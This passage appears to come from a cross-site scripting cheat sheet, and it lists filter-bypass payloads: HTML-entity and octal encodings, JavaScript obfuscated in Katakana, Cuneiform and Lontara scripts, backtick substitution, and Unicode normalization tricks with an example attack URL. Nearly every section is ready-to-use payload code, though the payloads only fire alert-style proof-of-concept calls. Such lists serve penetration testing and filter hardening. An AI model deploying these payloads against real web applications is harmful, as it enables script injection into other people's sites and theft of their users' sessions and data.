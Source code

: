 ### Bypass using HTML encoding

```javascript
%26%2397;lert(1)
&#97;&#108;&#101;&#114;&#116;
></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
```

### Bypass using Katana

Using the [Katakana](https://github.com/aemkei/katakana.js) library.

```javascript
javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
```

### Bypass using Cuneiform

```javascript
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```

### Bypass using Lontara

```javascript
ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()
```

More alphabets on http://aem1k.com/aurebesh.js/#

### Bypass using ECMAScript6

```html
<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
```

### Bypass using Octal encoding

```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

### Bypass using Unicode

```javascript
Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

E.g : http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
%EF%BC%9E becomes >
%EF%BC%9C becomes <
```

